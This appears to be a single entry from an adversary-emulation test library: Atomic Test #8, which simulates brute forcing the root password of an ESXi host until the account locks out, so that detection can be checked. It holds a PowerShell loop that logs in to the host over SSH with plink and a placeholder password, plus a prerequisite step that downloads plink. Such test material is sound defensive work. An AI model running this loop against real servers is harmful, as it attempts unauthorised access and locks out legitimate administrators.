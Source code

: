 


<br/>
<br/>

## Atomic Test #8 - ESXi - Brute Force Until Account Lockout
An adversary may attempt to brute force the password of privilleged account for privilege escalation.
In the process, the TA may lock the account, which can be used for detection. [Reference](https://news.sophos.com/en-us/2022/07/14/blackcat-ransomware-attacks-not-merely-a-byproduct-of-bad-luck/#:~:text=A%20ransomware%20group%20attacking%20large,internal%20systems%20after%20establishing%20a)

**Supported Platforms:** Windows


**auto_generated_guid:** ed6c2c87-bba6-4a28-ac6e-c8af3d6c2ab5





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vm_host | Specify the host name of the ESXi Server | string | atomic.local|
| plink_file | Path to Putty | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;plink.exe|
| lockout_threshold | Specify the account lockout threshold configured on the ESXI management server | string | 5|


#### Attack Commands: Run with `powershell`! 


```powershell
$lockout_threshold = [int]"#{lockout_threshold}"
for ($var = 1; $var -le $lockout_threshold; $var++) {
  #{plink_file} -ssh "#{vm_host}" -l root -pw f0b443ae-9565-11ee-b9d1-0242ac120002
  }
```




#### Dependencies:  Run with `powershell`!
##### Description: The plink executable must be found in the ExternalPayloads folder.
##### Check Prereq Commands:
```powershell
if (Test-Path "#{plink_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe" -OutFile "#{plink_file}"
```




<br/>
